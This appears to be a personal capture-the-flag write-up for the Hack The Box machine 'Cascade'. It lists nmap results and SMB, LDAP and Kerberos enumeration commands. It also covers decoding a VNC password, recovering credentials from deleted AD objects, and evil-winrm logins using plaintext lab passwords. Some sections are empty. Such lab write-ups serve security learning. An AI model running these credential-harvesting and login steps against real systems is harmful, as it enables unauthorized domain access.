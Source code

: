 # Summary



## about target

tip:   10.129.236.97

hostname:  Cascade

Difficulty:  Medium



## about attack

+ ldapsearch anonymous log, grep pass/pwd/cred/password
+ Online tools, cyberchef. decrypt and decode
+ Ad group recycle bin, enum deleted ad object.
+ Smb netlogon share,  could contains creds in vbs file.





**attack note**

```bash
Cascade / 10.129.236.97

PORT      STATE    SERVICE       VERSION
53/tcp    open     domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid:
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open     kerberos-sec  Microsoft Windows Kerberos (server time: 2022-12-21 15:36:09Z)
135/tcp   open     msrpc         Microsoft Windows RPC
139/tcp   open     netbios-ssn?
389/tcp   filtered ldap
445/tcp   open     microsoft-ds?
636/tcp   open     tcpwrapped
3268/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
3269/tcp  open     tcpwrapped
5985/tcp  open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49154/tcp open     unknown
49155/tcp open     msrpc         Microsoft Windows RPC
49157/tcp open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open     msrpc         Microsoft Windows RPC
49173/tcp open     msrpc         Microsoft Windows RPC

---- Interesting
-- from namap heavy scan
3268:Domain: cascade.local
53:Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)

-- from crackmapexec pass-pol
Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local)

-- domain users and sid from enum4linux
domainuser.list
Domain Name: CASCADE
Domain Sid: S-1-5-21-3332504370-1206983947-1165150453

-- password, ldap anonymous
r.thompson:clk0bjVldmE=:rY4n5eva

-- smb data, Vnc install.reg, password s.smith
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
s.smith:sT333ve2



---- Enum 
-- dns, nothing
dig any @$tip cascade.local
dig axfr @$tip cascade.local

-- rpc
nothing new, same to enum4linux.

-- smb
no shares.
smbclient -L $tip  -U null
smbclient -L $tip  -U null -N
smbclient -L $tip -U ""
smbclient -L $tip -U cascguest
smbclient -L $tip -U cascguest -N
smbclient -L $tip -U cascguest -P ''
smbclient -L $tip -U cascguest -N
smbmap -H $tip -u cascguest
smbmap -H $tip -u cascguest -p ''

-- ldap

cat ldap-anonymous.log | grep -i pwd

crackmapexec smb $tip -u r.thompson -p 'rY4n5eva' --shares

-- ad
# asrepoast
GetNPUsers.py -usersfile domainuser.list  -no-pass -dc-ip $tip cascade.local/ -format hashcat -outputfile asreproast.hash


-- enum r.thompson
cyberchef, convert 
echo '6bcf2a4b6e5aca0f' | xxd -r -p > smith.vncpwd


crackmapexec smb $tip -u s.smith -p 'sT333ve2' --shares

crackmapexec winrm $tip -u s.smith -p 'sT333ve2' 

---- Foothold

-- s.smith 

smbclient //$tip/Audit$ -U s.smith%sT333ve2

evil-winrm -u s.smith -p 'sT333ve2'  -i $tip

---- System
# query deleted ad object
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects

# query deleted ad object, tempadmin
Get-ADObject -filter { SAMAccountName -eq "TempAdmin" } -includeDeletedObjects -property *

evil-winrm -u administrator -p 'baCT3r1aN00dles' -i $tip
```







# Enum

## nmap scan



```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip


```





![image-20221222010056608](./images/image-20221222010056608.png)





![image-20221222013543004](./images/image-20221222013543004.png)



![image-20221222075620527](./images/image-20221222075620527.png)



# Foothold





# Privesc





## proof

```bash


```



